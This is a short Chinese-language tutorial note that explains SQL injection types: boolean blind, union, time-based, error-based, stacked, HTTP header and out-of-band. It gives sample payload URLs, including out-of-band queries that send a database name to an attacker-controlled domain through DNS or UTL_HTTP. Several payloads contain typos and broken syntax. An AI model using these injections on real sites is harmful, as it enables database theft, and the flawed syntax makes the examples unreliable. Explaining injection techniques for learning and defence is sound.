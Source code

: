 https://webtest.cjlio.com/?id=1' and substring(version) = 5--

布尔型注入被用于盲注，上面的例子中是通过布尔型注入来判断一下数据库版本是否为5，如果是的，那么将会是正常请求



联合查询注入（使用UNION关键字来拼接自己想要执行的SQL语句）

基于时间延迟注入（通过判断请求响应的时间来得到想要的信息，盲注，当页面不会提供报错信息时，布尔型注入也无效时采用）

https://webtest.cjlio.com/?id=1' and slepp(5)--

slepp函数的作用是当sql语句执行完成后等待指定秒数再去返回执行结果，通过感觉时间来确定该语句是否正常执行


报错型注入（如果页面可以返回sql报错信息时使用，通过报错信息中获取数据）




多语句查询型注入（当页面可以执行多条SQL语句时）

例如：https://webtest.cjlio.com/?id=1; SELECT * FROM test where id =1--

多语句查询型注入可以使用时，很大可能UPDATA数据库更新或者删除数据库可以触发



HTTP头注入

利用http请求头，当web服务器需要从http请求头中获取信息到数据库中时（针对不进行过滤审查就直接进行数据库操作时）

通过http请求工具，例如postman或者burpsuite，修改请求头，重放攻击

User-Agent: abc', (SELECT database()) --




堆叠注入（多条sql命令一起执行）

使用;结束当前sql命令后继续执行下一条sql命令

联合注入和堆叠注入区别：联合注入只能进行查询操作（取决于sql命令的拼接头是查询还是更新还是删除，或者插入），而堆叠注入可以执行任意sql命令

一般实质环境中堆叠注入用不到（可以会出现权限问题），但是一用到就威力无穷



OOB注入（out of band，带外通道技术）


通过生成请求体来攻击，目标服务器接收到恶意的请求体后，进一步处理，处理的过程中目标服务器可能要向外部发送请求或者向外部获取资源，而这个外部实质是攻击者控制的服务器，在进行外部的请求时，将数据一起发送给攻击者控制的服务器，最后在攻击者控制的服务器查看数据（例如：通过dns记录来显示）


https://test1.cjlio.com/?id=1' and SELECT CONCAT('\\\\',(SELECT database(),'.test2.cjlio.com');

https://test1.cjlio.com/?id=1' and  SELECT LOAD_FILE(CONCAT('\\\\',(SELECT database(),'.test2.cjlio.com'));

最后在DNS记录中查看到想要的数据，上面的例子是获取当前的数据库名


利用HTTP协议来OOB注入


https://test1.cjlio.com/?id=1' and  SELECT UTL_HTTP.REQUEST(https://test2.cjlio.com/test.php '||'?id='||(SELECT database())) FROM dual;

